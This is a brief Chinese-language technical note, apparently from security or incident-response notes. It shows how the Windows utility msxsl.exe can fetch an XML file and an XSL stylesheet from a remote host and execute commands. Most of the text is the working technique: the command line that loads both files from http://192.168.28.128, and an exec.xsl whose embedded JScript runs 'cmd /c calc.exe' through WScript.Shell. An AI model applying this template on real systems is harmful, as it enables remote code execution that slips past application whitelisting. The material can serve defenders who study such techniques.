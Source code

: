msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：

```
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

```
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
  
<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;
  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```
![20200413-14.png](../../_img\05-应急响应/1656916495090-e1e592f0-c95c-4190-a0a0-3835aaef0275.png)
